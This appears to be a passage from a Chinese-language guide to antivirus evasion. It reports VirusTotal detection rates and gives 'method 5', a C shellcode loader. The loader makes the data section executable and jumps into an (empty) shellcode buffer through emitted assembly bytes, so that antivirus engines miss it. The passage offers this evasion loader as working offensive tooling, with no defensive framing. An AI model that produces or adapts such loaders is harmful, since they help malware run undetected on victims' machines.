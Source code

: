 virustotal.com上查杀率为34/68（原po为9/70）。

![image-20220530142524357](./images/202205301425472.png)

### 方法5 汇编花指令(VT免杀率37/69)

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{
    __asm
    {

        mov eax, offset shellcode
        _emit 0xFF  
        _emit 0xE0

    }
}
```
